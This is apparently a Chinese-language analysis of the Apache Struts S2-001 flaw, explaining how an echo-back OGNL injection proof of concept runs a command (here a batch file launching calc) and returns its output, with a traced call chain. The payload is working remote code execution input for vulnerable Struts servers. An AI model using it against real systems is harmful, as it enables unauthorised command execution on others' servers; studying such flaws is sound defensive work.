








# POC

在struts的漏洞分析中,经常用到可回显POC,因为本人比较好奇其中的原理,便自己分析了一下,这里利用的时S2-001的环境,poc为

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"d://cmd.bat"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
//cmd.bat文件中写的命令为"calc",这样是为了既能看到命令执行的效果又能拥有返回值
```

流程从这里开始分析,然后调用OgnlValueStack#findValue



继续往里面跟



快进到ASTSequence#getValueBody,这里对children,进行遍历,依次进行解析





此时的调用链为:



```
getValue->evaluateGetValueBody->getValueBody
```

然后再getValueBody中`Object result = this.children[1].getValue(context, source);`成功执行我们的命令,并将返回值赋值给了result








